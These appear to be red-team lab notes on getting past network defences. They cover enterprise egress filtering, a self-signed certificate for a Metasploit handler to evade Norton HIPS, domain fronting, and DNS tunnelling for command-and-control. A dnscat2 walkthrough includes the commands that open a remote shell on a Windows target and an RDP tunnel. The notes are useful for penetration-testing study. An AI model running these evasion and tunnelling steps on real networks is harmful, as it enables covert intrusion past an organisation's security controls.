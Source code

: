 ## Network Filter Theory
There are various defense solutions in an enterprise environment to filter traffic.(Consider a comprehensive Internet edge architecture installation.)
- 1.Egress traffic relies on name resolution and edge DNS server may perform domain filtering, which deny known malicious domains
  - Most DNS filters compare requested domains to a blocklist of well-known malicious domain names. If the domain name is on the blocklist, it is filtered. 
  [OpenDNS,](https://community.opendns.com/domaintagging/) perform this action. 
  - DNS servers can integrate domain reputation lookup solution like [IPVoid](https://www.ipvoid.com/dns-reputation/), [VirtusTotal](https://www.virustotal.com/gui/home/search), and
  query multiple DNS filtering providers and make a decision about requtability of the domain.
- 2.Interal firewall generally limit traffic based on IP address and port number. For example, if organizaitons doesn't allow egress SMB traffic, the C2 will be filterd out.
- 3.SSL inspection device, often perform SSL decryption to inspect SSL-encrypted traffic and encryptd the traffic when it leave this zone.
- 4.IF traffic is still allowed, it may pass through a traffic filter, such as proxy server or an IDS, where data maybe be copied to a full packet capture device.
- 5.Route to internet

## Case Study Bypassing Norton HIPS with Custom Certificates
generate a self-signed certificate, In order to use this certificate and key with Metasploit, we must create a .pem file by simply
concatenating the key and certificate with cat.
```
kali@kali:~$ openssl req -new -x509 -nodes -out cert.crt -keyout priv.key

kali@kali:~$ cat priv.key cert.crt > nasa.pem 
```
Change the CipherString in /etc/ssl/openssl.cnf
```
CipherString=DEFAULT
```
Configure Metasploit to use newly-created certificate
```
msf5 exploit(multi/handler) > set HandlerSSLCert /home/kali/self_cert/nasa.pem
```

## Domain Fronting
Domain fronting involves using different domain names in the SNI field of the TLS header and the Host field of the HTTP header. If both 
domains are served from the same CDN, then the CDN may route to the address specified in the HTTP header after unwrapping the TLS header. More to follow.

## DNS Tunneling
In order to establish communication between two hosts using DNS traffic, we need to control
both ends of the communication: the client that makes the requests, and the DNS server. We nned to register our DNS server(attack machine/redirector) as the
authoritative server for a given target domain.

From the client, we can encapsulate data into the name field, which contains the domain name.
However, since the top-level domain is fixed, we can only encapsulate data as subdomains. These
can be up to 63 characters long but the total length of a domain can’t exceed 253 characters.

From the server side, we have much more flexibility and can return data in a variety of fields
based on the record type that was requested. An “A” record can only contain IPv4 addresses,
which means we can only store four bytes of information, but “TXT” records allow up to 64k.

one challenge in C2 communications is that if we want to send any data from the server
to the client, we can’t initiate the transfer from the server. Therefore, the malicious client
applications are designed to continuously poll the server for updated data.

For example, Clinet will poll the server. 6172657468657265 could be encapsulate command for "is there more command to run?"
```
Query: Request TXT record for "6172657468657265.ourdomain.com"
```

Now, on the DNS server side, sending command back to client, "686f73746e616d65" could be a whomai command.

```
TXT: "686f73746e616d65"
```

## DNS Tunneling with dnscat2
[dnscat2](https://github.com/iagox86/dnscat2) is a DNS tunneling utility. It can tunnel A, TXT, and NS records. Let's consider the follwing network digram.


![image](https://user-images.githubusercontent.com/24555370/145134133-776aaf38-f8ea-49c7-9e4a-9020a5859446.png)

We will configure dnsmasq DNS server to forward requests to our kali. The domain name will bne tunnel.com.

configure /etc/dnsmasq.conf file on the Ubuntu machine, Note, the IP address are point to Kali machine
```
server=/tunnel.com/kaliIP
server=/somedomain.com/KaliIP
```
restart dns
```
dns@ubuntu:~$ sudo systemctl restart dnsmasq
```

On our kali machine, we have to start dnscat2-server for our example tunnel.com domain

```
kali@kali:~$ sudo apt install dnscat2

kali@kali:~$ dnscat2-server tunnel.com
```

Now on the windows target machine

```
C:\Users\mst\Desktop> dnscat2-v0.07-client-win32.exe tunnel.com
```

Now, we have established a DNS tunnel, on the kali side, interact with the seesion using the  ```session -i [number]```, we can run an interactive shell with the ```shell``` command
```
dnscat2> session -i 1
New window created: 1
history_size (session) => 1000

command (client) 1> shell
Sent request to execute a shell
command (client) 1> New window created: 2
Shell session created!
command (client) 1> session -i 2


C:\Users\mst\Desktop>
cmd.exe (client) 2> whoami
client\mst
```
We can also create a rdp tunnel from kali to Windows
```
command (client) 1> listen 127.0.0.1:3389 172.16.51.21:3389
Listening on 127.0.0.1:3389, sending connections to 172.16.51.21:3389
```
